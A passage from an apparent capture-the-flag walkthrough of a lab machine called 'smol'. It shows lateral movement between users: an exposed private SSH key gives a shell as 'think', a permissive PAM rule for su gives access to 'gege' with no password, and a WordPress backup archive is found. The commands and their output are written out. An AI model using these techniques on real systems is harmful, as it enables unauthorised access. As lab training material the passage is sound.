 ```console
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
```

We can simply use this private key with **SSH** to gain a shell as the `think` user.

```console
diego@smol:/home/think/.ssh$ ssh -i id_rsa think@127.0.0.1
...
think@smol:~$ id
uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
```

## Shell as gege

Checking the **PAM** configuration file for `su` located at `/etc/pam.d/su`, we notice an interesting entry:

```console
think@smol:~$ cat /etc/pam.d/su
...
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
...
```

This rule specifies that when using `su`, if the target user is `gege`, authentication will succeed as long as the current user is `think`. Therefore, as the `think` user, we can simply use the `su` command to switch to the `gege` user without needing their password.

```console
think@smol:~$ su - gege
gege@smol:~$ id
uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
```

## Shell as xavi

Checking our home directory as the `gege` user, we find an interesting **ZIP** archive named `wordpress.old.zip`.

```console
gege@smol:~$ ls -la /home/gege
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
```
